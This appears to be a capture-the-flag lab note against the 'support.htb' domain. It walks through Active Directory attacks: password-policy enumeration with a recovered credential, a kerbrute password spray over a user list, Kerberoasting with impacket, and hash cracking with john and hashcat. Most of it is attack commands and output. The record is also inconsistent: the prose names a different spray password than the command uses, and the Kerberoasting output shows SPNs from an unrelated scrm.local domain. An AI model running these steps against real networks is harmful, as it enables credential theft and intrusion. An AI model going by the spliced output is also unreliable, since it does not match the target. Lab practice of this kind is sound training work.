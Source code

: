 # Password policy enumeration
```$ python enum_policy.py support.htb 'support\support' 'Ironside437pleasure401Watchful'```
can we brute?
```
##################################
# Domain name: DC=support,DC=htb #
##################################
-------------------------------
[b'[LDAP://CN={31B2F340-016D-11D2-945F-00C04FB984F9},CN=Policies,CN=System,DC=support,DC=htb;0]']
lockoutThreshold: [b'0']
lockoutDuration: [b'-18000000000']
minPwdAge: [b'-864000000000']
maxPwdAge: [b'-9223372036854775808']
minPwdLength: [b'7']
modifiedCount: [b'1']
```
# Password Spray
Trying 'Aa123456' against all domain users.
```$ kerbrute passwordspray -d support.htb --dc 10.10.11.174 loot/users.txt 'Ironside437pleasure401Watchful'```

```loot/users.txt```
```
Administrator
Guest
krbtgt
ldap
support
ford.victoria
```
# Kerberoasting
SPN set on a user? we can ask the KDC for a TGS that contains their password and crack it offline 
```$ python /usr/share/doc/python3-impacket/examples/GetUserSPNs.py -outputfile kerberoastables.txt -dc-ip 10.10.11.174 'support.htb/support:Ironside437pleasure401Watchful'```
```
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation
ServicePrincipalName          Name    MemberOf  PasswordLastSet             LastLogon                   Delegation
----------------------------  ------  --------  --------------------------  --------------------------  ----------
MSSQLSvc/dc1.scrm.local:1433  sqlsvc            2021-11-03 12:32:02.351452  2023-05-21 11:51:15.168848
MSSQLSvc/dc1.scrm.local       sqlsvc            2021-11-03 12:32:02.351452  2023-05-21 11:51:15.168848
```
Cracking the hash:
```
john kerberoastables.txt --wordlist=/usr/share/wordlists/rockyou.txt
```
```
hashcat -a 0 -m 19600 kerberoastable.txt /usr/share/wordlists/rockyou.txt
# -m flags
  19600 | Kerberos 5, etype 17, TGS-REP
  19700 | Kerberos 5, etype 18, TGS-REP
  13100 | Kerberos 5, etype 23, TGS-REP
```
